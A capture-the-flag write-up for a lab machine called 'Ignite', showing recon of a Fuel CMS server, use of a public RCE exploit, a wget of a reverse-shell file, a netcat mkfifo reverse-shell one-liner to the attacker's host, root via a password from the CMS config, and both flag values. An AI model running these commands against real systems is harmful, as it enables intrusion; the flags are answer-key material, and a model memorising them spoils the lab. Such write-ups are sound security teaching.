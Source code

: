 # Ignite

export IP=10.10.119.165

## 1 User.txt

lets start with an nmap scan

cmd: nmap -sC -sV -oN nmap/initial $IP

```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

```

we can see a robots with disallowed entry for<b> /fuel/ </b> <br>

lets check the web server while running a gobuster <br>
There is default creds

```
admin:admin
```
But couldn create a page and access it (maybe my fault) <br>



by visiting the website it clear that the fuel CMS is in use, lets check the robots manually. (nothing more there) <br>

cmd: gobuster dir -u http://$IP -o gobuster/initial -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 50

```
Nothing interesting
```

Lets do another gobuster on the /fuel/ directory<br>

cmd: gobuster dir -u http://$IP/fuel/ -o gobuster/initial -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -x php,html,txt

```
took too much time, the connection was slow and with more threads it was slow as fuck...
```

Manually found /login page but no SQLi there<br>

Just check searchsploit...<br>

```
searchsploit fuel

Fuel CMS 1.4.7 - 'col' SQL Injection (A | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL  | php/webapps/48778.txt
fuelCMS 1.4.1 - Remote Code Execution   | linux/webapps/47138.py (seems good)
```

get the exploit to the curr folder and modify the url and remove the proxies (in this scenario is not needed)

```
searchsploit -m linux/webapps/47138.py
```

We got cmd execution... (tested with cmd: cat /etc/passwd) <br>

Now lets wget a revshell, why not?!

```
cmd: wget "http://10.9.128.84:8888/rev.php" -P /tmp/waza_rev.php
```
Well, it gets the file but when running it does not work... bash reverse shell and inline python's also did not work...<br>
It may be because netcat is the restricted version....<br>

Lets try the OpenBSD one

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.128.84 1415 >/tmp/f
```
And yeah, the theory was correct... i'm in.

```
whoami 
www-data
```

At this user home folder there was a flag.txt file (i suppose that it is the user.txt)

```
cat /home/www.data/flag.txt
FLAG: 6470e394cbf6dab6a91682cc8585059b
```

### Answer: 6470e394cbf6dab6a91682cc8585059b

## 1 Root.txt

for sudo -l (to fast check privesc) it is needed the www-data password, which i dont have.<br>
Also no crontab (for www-data and in the /etc/crontab )<br>

lets check the fuel home page... section: install the database. <br>

path: /var/www/html/fuel/application/config/database.php
```

'username' => 'root',
'password' => 'mememe',

su root
Password: mememe


whoami
root

cat /root/root.txt
FLAG: b9bbcb33e11b80be759c4e844862482d
```

### Answer: b9bbcb33e11b80be759c4e844862482d



